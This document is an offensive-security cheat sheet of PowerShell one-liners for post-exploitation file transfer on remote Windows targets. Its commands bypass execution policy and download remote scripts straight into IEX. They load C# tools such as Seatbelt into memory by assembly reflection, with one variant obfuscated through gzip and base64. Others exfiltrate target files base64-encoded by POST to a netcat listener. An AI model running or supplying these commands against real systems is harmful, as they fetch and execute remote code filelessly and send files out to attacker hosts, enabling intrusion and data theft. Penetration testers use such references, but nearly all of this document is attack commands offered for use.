 # powershell

% powershell, download

#plateform/windows #target/remote #cat/UTIL/FILE_TRANSFERT #tag/powershell 

## file transfert - download on disk

```powershell
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile "(New-Object System.Net.WebClient).DownloadFile('http://<server>/<source_file>','<dest_file>')"
```

## file transfert - download and import script
```powershell
(new-object system.net.webclient).downloadstring('http://<ip>/<script>') | IEX
```
## file transfert - download csharp into memory (Assembly reflection)
```powershell
$data = (New-Object System.Net.WebClient).DownloadData('http://<local_ip>:<port|80>/<asm_ref_bin_path><asm_ref_exe_name>.exe'); $asm = [System.Reflection.Assembly]::Load($data); 
```
= asm_ref_bin_path: windows/NetFramework_4.7_x64/
= asm_ref_exe_name: Seatbelt

## file transfert - download gziped csharp into memory (Assembly reflection)
```powershell
$compressed = (New-Object System.Net.WebClient).DownloadData('http://<local_ip>:<port|80>/<asm_ref_bin_path><asm_ref_exe_name>.exe');$a=New-Object IO.MemoryStream(,[Convert]::FromBAsE64String($compressed));$decompressed = New-Object IO.Compression.GzipStream($a,[IO.Compression.CoMPressionMode]::DEComPress);$asm = [System.Reflection.Assembly]::Load($decompressed); 
```

## file transfert - run csharp from memory (Assembly reflection) 
```powershell
$params="<asm_ref_params>".split(" ");$OldConsoleOut = [Console]::Out; $StringWriter = New-Object IO.StringWriter ; [Console]::SetOut($StringWriter) ; $asm.EntryPoint.Invoke($null, [Object[]] @(@(,($params))));[Console]::SetOut($OldConsoleOut); $Results = $StringWriter.ToString(); $Results
```
= asm_ref_params: -group=user -full

## file transfert - upload base64 (in-memory)
catch with nc then echo <base64> | base64 -d -w 0 > hosts
```powershell
$b64 = [System.convert]::ToBase64String((Get-Content -Path '<file>' -Encoding Byte));Invoke-RestMethod -Uri http://<local_ip>:<port|80>/ -Method POST -Body $b64
```

## file transfert - upload base64 (file creation)
catch with nc then echo <base64> | base64 -d -w 0 > hosts
```powershell
certutil -encode <infile> <outfile>; $base64str = Get-Content <outfile> && Invoke-RestMethod -Uri http://<local_ip>:<port|80>/ -Method POST -Body $base64str
```